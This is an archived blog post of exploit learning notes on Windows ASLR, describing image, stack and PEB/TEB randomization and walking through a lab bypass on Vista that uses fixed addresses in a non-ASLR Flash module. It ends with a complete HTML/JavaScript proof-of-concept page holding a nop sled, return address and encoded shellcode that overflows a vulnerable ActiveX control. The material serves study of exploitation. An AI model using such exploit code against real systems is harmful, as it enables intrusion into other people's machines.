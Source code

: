 ```yaml
---
title: Exploit learning notes 017 ASLR Introduction
description: introduction to ASLR technology and simple attack ideas
date: 2020-11-24 21:12:00+0800
categories:
    - Exploit
tags:
    - Windows
    - ASLR
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-017-aslr-introduction/)

## Introduction to ASLR techniques

> Throughout, all of the previously described vulnerability exploitation methods share a common feature: they all require the identification of a clear jump address. Whether it is a generic springboard instruction such as JMP ESP or the various instructions used by Ret2Libc, we need to determine the entry point of this instruction first. As the saying goes, Microsoft's ASLR (Address Space Layout Randomization) technology is a protection mechanism that interferes with shellcode positioning by no longer using a fixed base address to load the program
>
> In fact, the concept of ASLR has been introduced in the Windows XP era, but the ASLR function on XP is very limited, only a simple randomization of PEB and TEB, but no randomization of the module load base address, until Windows Vista appeared, ASLR really began to work!
>
> Similar to SafeSEH, ASLR implementation requires both program support and OS support, where program support is not required.

- Microsoft has added the `/dynamicbase` linking option since Visual Studio 2005 SP1 to help us with this task. We just need to enable the `/ddynmicbase` linking option when we compile the program, and the compiled program will support ASLR

### Image randomization

- Image randomization is the process of randomizing the virtual address of the PE file loaded when it is mapped to memory, this address is determined at system startup and will change after system reboot
- Probably for compatibility reasons, Microsoft has set a switch for image randomization in the system, which users can set by setting the registry key `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\ MoveImages` key to set the working mode of image randomization
  - When set to `0`, image randomization is disabled
  - When set to `-1`, randomizable images are forced to be processed with or without the `IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE` flag set
  - Normal mode of operation when set to other values, only images with the randomized processing flag are processed
  - If `MoveImages` does not exist in the registry, you can manually create a value with the name `MoveImages` and the type `DWORD` and set its value as needed

### Stack randomization

- This measure is to randomly select the base address of the stack when the program is running. The difference with image base randomization is that the base address of the stack is not determined when the system is started, but when the program is opened, which means that the base address of the stack is different for any two runs of the same program, and thus the location of each variable in memory is not determined.
- Compile the following program in VS2008, run it twice on XP and Vista, and get the following result

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](Windows%20Vista.png)
![Windows XP](Windows%20XP.png)

- As you can see, the heap addresses are far apart on Vista, while they are identical on XP

### Randomization of PEB and TEB

- Getting the TEB and PEB of the current process is simple, the TEB is stored at `FS:0` and `FS:[0x18]` and the PEB is stored at the TEB offset `0x30`, you can get the TEB and PEB of the current process by the following code

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- Test run on Vista, the results are as shown

![PEB-TEB-random-Vista](PEB-TEB-random-Vista.png)

- As you can see, the result is very poor, the PEB address is only randomized by one byte, and it is still very regular, the TEB is basically unchanged

### Defects of ASLR

- It is not difficult to see that when ASLR randomizes the image, although the module load base address has changed, but the entry point of each module's lower two bytes will not change, for example: the original base address: `0x00401234`, after randomization the base address becomes: `0x67291234`, so you can use this to attack it

## Attack the module without ASLR enabled

### Preparation

> Experimental environment: Windows Vista SP0, IE7, Adobe Flash Player 9.0.124

- Although the book requires the use of version 9.0.262, but I really can not find it, so I will use 9.0.124 instead, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- The vulnerable OCX control has already been compiled in the previous experiment, so use that one, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx), this control ctrl class object id: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Steps

- Reboot the system to see the ASLR module enabled

![ASLR not enabled status](ASLR%20not%20enabled%20status.png)

- Experimental control is not enabled GS
- Load POC page and Flash9k.ocx via IE7
- There is a stack overflow vulnerability in the function test, which aims to overwrite the return address of the function
- Because Flash9k.ocx is not ASLR enabled, the load base address is fixed, so you can search for a suitable springboard instruction inside to jump to shellcode
- IE7's DEP is turned off, so the impact of DEP is not considered
- Since the attack is achieved by overwriting the return address of the function, the best springboard instruction is JMP ESP
- `0x301D606B` is also `JMP ESP`, which will jump to the head of the string after execution, but the problem is that the four bytes of `6B 60 1D 30` constitute exactly one line of assembly instruction `imul esp,dword ptr ds:[eax+0x1D],0x30`, which will multiply the last two operands and subsequently put them into the first operand So it needs to keep the value of `[eax+0x1D]` correct, and currently eax is not pointing to a valid address, so it needs to fix eax
- Unfortunately, there is no suitable instruction for fixing eax, so change the address
- `0x303911D3` is also `JMP ESP`, but the assembly code it consists of will read both EC and EAX, so both registers need to be repaired, not feasible, change instruction
- `JMP ESP` is not available, use `JMP ESI` instead, address `0x3000DCD2` contains 0, directly excluded, address `0x302420C3` the last byte is retn, can not be used, excluded, address `0x3028EE6E` assembly code will directly cause an exception, excluded, this instruction is also no longer suitable, so look for other suitable instruction
- The `CALL ESP` at address `0x300942F2` seems to be suitable, it will also increase the esp by 8 bytes to avoid the garbage data.
- Here is the shellcode after the change

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- As shown in the picture, reboot the system, the shellcode runs normally, which means the attack on ASLR is successful

![shellcode run successfully](shellcode%20run%20successfully.png)
